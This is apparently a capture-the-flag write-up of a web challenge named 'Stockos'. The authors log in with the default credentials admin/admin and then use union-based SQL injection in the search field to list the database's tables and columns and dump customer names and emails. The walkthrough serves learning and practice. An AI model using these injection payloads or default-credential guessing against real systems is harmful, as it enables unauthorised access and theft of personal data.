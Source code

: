 # Web

## Stockos

Our first goal, given by Jérémy Nitel, was to search for creditentials in a broken warehouse's website named Stockos. The messages also indicates that Stockos has its admin password leaked multiple times and that it was a simple one.

When landing on the provided link (https://challengecybersec.fr/4e9033c6eacf38dc2a5df7a14526bec1/), we stumble upon a login page. Remembering the easy password, we tried `admin` as login and password. Bingo! It was right, we are now logged on as the admin. We cannot do much except change some personal infos about the admin and list the orders from the warehouse. Interestingly, there is a search function, this got us and idea to try for an SQL injection.

And so we did, by trying different character sets, we found out that `' AND 1=1 -- '` works. We then supposed that the request was written like this:
```sql
SELECT ?, ?, ?, ?, ? FROM ? WHERE ?='<our input text>%' ORDER BY section ASC
-- With our input text:
SELECT ?, ?, ?, ?, ? FROM ? WHERE ?='' AND 1=1 -- '%' ORDER BY section ASC;
```
Now, with a door to enter, we can use the keyword `UNION` to append new information on the tables. One very interesting table name to look for is `information_schema.tables`. This is a table that lists all tables.
```sql
-- <' AND 0=1 UNION SELECT table_name, 2, 3, 4, 5 FROM information_schema.tables -- '>
SELECT ?, ?, ?, ?, ? FROM ? WHERE ?='' AND 0=1 UNION SELECT table_name, 2, 3, 4, 5 FROM information_schema.tables -- '%' ORDER BY section ASC
```
With every tables listed, we can check the `customer` table. We still need the column names and the table `information_schema.columns` can help us.
```sql
-- <' AND 0=1 UNION SELECT column_name, 2, 3, 4, 5 FROM information_schema.columns WHERE table_name='customer' -- '>
SELECT ?, ?, ?, ?, ? FROM ? WHERE ?='' AND 0=1 UNION SELECT column_name, 2, 3, 4, 5 FROM information_schema.columns WHERE table_name='customer' -- '%' ORDER BY section ASC
```
The request above will print the name of every column of `customer`. `name` and `email` are very useful.
```sql
-- <' AND 0=1 UNION SELECT name, email, 3, 4, 5 FROM customer -- '>
SELECT ?, ?, ?, ?, ? FROM ? WHERE ?='' AND 0=1 UNION SELECT name, email, 3, 4, 5 FROM customer -- '%' ORDER BY section ASC
```
This last SQL request will print the list of each customer's name and email. And there lays the email we are looking for: `agent.malice@secret.evil.gov.ev`. We can now go try the rest of the challenge.

*__Note__: The end of the SQL request can be leaked by creating a malformed request like `'`. You can also find that this is a MySQL server. The numbers `1` to `5` in SQL requests are special name for dummy columns.*